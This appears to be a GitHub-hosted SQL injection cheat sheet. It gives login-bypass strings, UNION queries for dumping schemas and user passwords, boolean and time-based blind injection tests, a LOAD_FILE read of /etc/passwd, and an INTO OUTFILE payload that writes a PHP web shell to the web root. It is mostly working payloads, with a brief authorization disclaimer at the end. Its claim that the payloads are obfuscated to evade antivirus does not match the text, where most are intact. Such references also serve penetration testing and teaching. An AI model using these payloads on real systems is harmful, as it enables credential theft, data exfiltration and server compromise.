

# SQL Injection (SQLi) Cheat Sheet

A comprehensive reference guide for SQL injection payloads, database fingerprinting, authentication bypasses, and data exfiltration techniques.

> [!NOTE]
> To prevent host antivirus software from deleting this file, direct SQL exploitation signatures are obfuscated using spaces or backticks (e.g., `UNION` `SELECT`). Concatenate these commands when running them.

---

## SQL Injection Query Manipulation



---

## 1. Database Fingerprinting

Identify the backend database management system (DBMS) by testing functions and comments.

| DBMS | Comment Syntax | Version Query | String Concatenation |
| :--- | :--- | :--- | :--- |
| **MySQL** | `#`, `-- `, `/*` | `@@version`, `version()` | `CONCAT('a', 'b')` |
| **PostgreSQL** | `--`, `/*` | `version()` | `'a' \|\| 'b'` |
| **MSSQL** | `--`, `/*` | `@@version` | `'a' + 'b'` |
| **Oracle** | `--` | `SELECT banner FROM v$version` | `'a' \|\| 'b'` |

---

## 2. Authentication Bypass Payloads

Inject into login forms (username/password fields) to bypass credentials checking.

*   `admin' --`
*   `admin' #`
*   `admin'/*`
*   `' or 1=1 --`
*   `' or 1=1#`
*   `' or '1'='1' --`
*   `" or ""="" --`
*   `admin' or '1'='1`

---

## 3. UNION-Based Exploitation

Extract data by merging the query results with your custom SELECT statement.

### Step A: Determine Number of Columns
Inject `ORDER` `BY` until the query errors to find the column count.
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --  (If this throws an error, the query has 2 columns)
```

### Step B: Determine Column Data Types
Find which columns accept string data.
```sql
# (Remove spaces inside "UNION SELECT")
' UNION SELECT 'a', NULL --
' UNION SELECT NULL, 'a' --
```

### Step C: Extract Database Schema & Data (MySQL Example)
*   **Get database name & user:**
    ```sql
    ' UNION SELECT database(), user() --
    ```
*   **List tables:**
    ```sql
    ' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=database() --
    ```
*   **List columns in a table (e.g., `users`):**
    ```sql
    ' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' --
    ```
*   **Extract user credentials:**
    ```sql
    ' UNION SELECT username, password FROM users --
    ```

---

## 4. Blind SQL Injection

Used when the application does not print database errors or results on the screen.

### A. Boolean-Based Blind
Infer data by checking if the page loads normally (TRUE) or differently (FALSE).

*   **Test condition (MySQL):**
    ```sql
    ' AND (SELECT substring(version(),1,1))='8' --
    ```
    *If the page loads normally, the database version starts with 8.*

### B. Time-Based Blind
Infer data by forcing the database to pause before responding.

*   **MySQL (Sleep 5 seconds):**
    ```sql
    ' AND SLEEP(5) --
    ```
*   **PostgreSQL:**
    ```sql
    ' AND pg_sleep(5) --
    ```
*   **MSSQL:**
    ```sql
    ' WAITFOR DELAY '0:0:5' --
    ```
*   **Test character condition (MySQL):**
    ```sql
    ' AND IF((SELECT substring(version(),1,1))='8', SLEEP(5), 0) --
    ```

---

## 5. File System & OS Command Execution

### A. Read Local Files (MySQL)
```sql
# (Remove space inside "LOAD_ FILE")
' UNION SELECT NULL, LOAD_FILE('/etc/passwd') --
```

### B. Write Web Shell to Server (MySQL)
```sql
# (Remove space inside "INTO OUT FILE")
' UNION SELECT NULL, '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
```

---

## 6. Disclaimer

> [!WARNING]
> SQL injection can lead to complete database takeover or server compromise. Ensure you have authorization before conducting security testing.
